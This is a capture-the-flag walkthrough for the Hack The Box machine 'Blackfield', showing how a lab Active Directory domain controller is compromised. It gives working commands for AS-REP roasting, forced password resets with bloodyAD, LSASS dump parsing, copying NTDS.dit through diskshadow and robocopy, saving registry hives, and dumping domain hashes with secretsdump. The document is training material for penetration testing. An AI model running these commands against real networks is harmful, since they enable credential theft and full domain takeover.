






# HTB Blackfield Full Walkthrough



## About Blackfield

Backfield is a hard difficulty Windows machine featuring Windows and Active Directory misconfigurations. Guest access to an SMB share is used to enumerate users. Once user is found to have Kerberos pre-authentication disabled, which allows us to conduct an ASREPRoasting attack. This allows us to retrieve a hash of the encrypted material contained in the AS-REP, which can be subjected to an offline brute force attack in order to recover the plaintext password. With this user we can access an SMB share containing forensics artefacts, including an lsass process dump. This contains a username and a password for a user with WinRM privileges, who is also a member of the Backup Operators group. The privileges conferred by this privileged group are used to dump the Active Directory database, and retrieve the hash of the primary domain administrator.

## Recon

### Nmap Scan

```
# Nmap 7.95 scan initiated Fri Feb 13 19:22:12 2026 as: /usr/lib/nmap/nmap -p- -Pn -sV -sC -v -oN nmap_sVsC.txt 10.129.229.17
Nmap scan report for DC01.BLACKFIELD.local (10.129.229.17)
Host is up (0.033s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-14 07:24:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m56s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-14T07:24:45
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 13 19:25:27 2026 -- 1 IP address (1 host up) scanned in 194.76 seconds
```
From this nmap output, this looks like a Windows Domain Controller. This is due to the presence of ports such as **SMB (135/445)**, **Kerberos (88)** and **LDAP (389/3268)**. We also get a domain name of `blackfield.local`.

### SMB (135/445)

We were able to successfully to do anonymous authentication. However, we werent able to access any shares or enumerate users. We then tried to authenticate using the `guest` account. Usually this account is disabled but this time we were able to authenticate and read some shares. 


We noticed that we had Read Access to a non default share called `profile$`. Upon spidering the share using `netexec`, we found that it does not contain any files. 


We then tried to do rid brute forcing and was able to generate a list of domain users.



## Initial Access

With a list of users, one of the first thing we can do is check if any of the accounts are vulnerable to AS-REP Roasting. This can be tested using Impacket’s GetNPUsers, which requests AS-REP responses for users that do not require Kerberos pre-authentication.

```
impacket-GetNPUsers BLACKFIELD.local/ -dc-ip $target -usersfile userlist2.txt -outputfile hashes.txt
```


As were able to obtain the hash for the `support` user. We can use John The Ripper to attempt to crack the hash that we just obtained. 



With valid credentials, we can test authentication across common protocols. SMB authentication succeeded but did not provide access to any additional interesting shares. LDAP enumeration appeared to hang.


## Lateral Movement

Since we have a valid domain user, we can try to collect BloodHound data for analysing. Usually I do this using `nxc` but since LDAP is hanging when using `nxc`, we can try using the python BloodHound ingester. The tool can be found here https://github.com/dirkjanm/BloodHound.py.

```
bloodhound-ce-python -c All -d BLACKFIELD.local -u 'support' -p 'REDACTED' -ns $target -dc DC01.BLACKFIELD.local --zip
```


Upon analysing the `support` user, we see that it has the permission to change the password of the `audit2020` user. We can utilise the `BloodyAd` tool to do this.

```
bloodyAD --host $target -d "BLACKFIELD.local" -u "support" -p "REDACTED" set password "audit2020" "Password1"
```


Now that we have new credentials, we need to recheck shares and protocols to see if we have anything new. When we enumerate SMB shares, we see we have read permission on another non default share.


There are 3 folders in total but the most interesting one to me was the `memory_analysis` folder.


What stands out immediately is `lsass.zip`. After downloading and unzipping it, we find an `lsass.DMP` file, which is a memory snapshot of the `lsass.exe` process.

LSASS (`lsass.exe`) implements the Local Security Authority (LSA) in Windows. It handles logon authentication (e.g., Kerberos for domain logons, NTLM/SAM for local accounts), applies local security policy, and crucially issues access tokens that contain a user’s identity, group memberships, and privileges. Windows attaches these tokens to sessions and processes and uses them to make authorization decisions for resources like files, registry keys, services, and network access.

To support single sign-on and avoid repeatedly prompting the user, LSASS and its authentication packages also keep credential-related material in memory (such as Kerberos tickets/keys and other derived secrets). From a security perspective, this is why LSASS is a high-value target: if an attacker can obtain an LSASS memory dump, they can parse it offline to recover whatever credential artifacts were present at the time. Since we already have the dump, we can use a parser like [pypykatz](https://github.com/skelsec/pypykatz) to extract and inspect any usable credentials or keys.


## Privilege Escalation

We try to authenticate using the `svc_backup` and find that we are able to obtain a winrm session. 


After getting a evil-winrm session going, one of the first things we should do is check the privileges of our user. From the output we see that the `svc_backup` user is part of the `Backup Operators` group(surprising, I know 😂).


Backup Operators commonly implies SeBackupPrivilege, which can be abused to read files that are normally locked down, most importantly the Active Directory database (NTDS.dit). Since NTDS is typically in use, the clean approach is to create a Volume Shadow Copy and copy it out from the snapshot. First on our Kali machine, we create `viper.dsh` with the following content.

```
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

We then use `unix2dos` to convert a text file from Unix/Linux line endings to Windows/DOS line endings. This is to avoid script parsing issues on the target.

```
unix2dos viper.dsh
```

We then upload the `viper.dsh` file onto the victim machine. We then run the file as follows.

```
diskshadow /s viper.dsh
```
DiskShadow is a built-in Windows tool for managing VSS (Volume Shadow Copy Service) snapshots.

`/s viper.dsh` tells DiskShadow to run a script file (viper.dsh) containing DiskShadow commands. The point of a shadow copy is that it gives us a consistent, point in time snapshot of a volume, even if files on the live system are "in use" (locked). So after this runs successfully, we will end up with something like a new drive letter that represents the snapshot.

```
robocopy /b x:\windows\ntds . ntds.dit
```
Robocopy is a robust file copy utility. `/b` means Backup mode. In Windows, backup mode can allow copying files that we normally can’t read, if our account has the relevant privileges. It bypasses some normal ACL checks by using the Backup API.



To decrypt hashes from NTDS, we also need the SYSTEM registry hive:

```
reg save hklm\system c:\windows\tasks\system
```
I also saved SAM out of habit, although for a DC the important target is NTDS

```
reg save hklm\sam c:\windows\tasks\sam
```


Now with all these files, we can extract the hashes stored in the DC using Impacket's `secretsdump`

```
secretsdump.py -ntds ntds.dit -system system LOCAL
```



We can then use the Administrator hash to get a winrm session and retrieve the root flag.


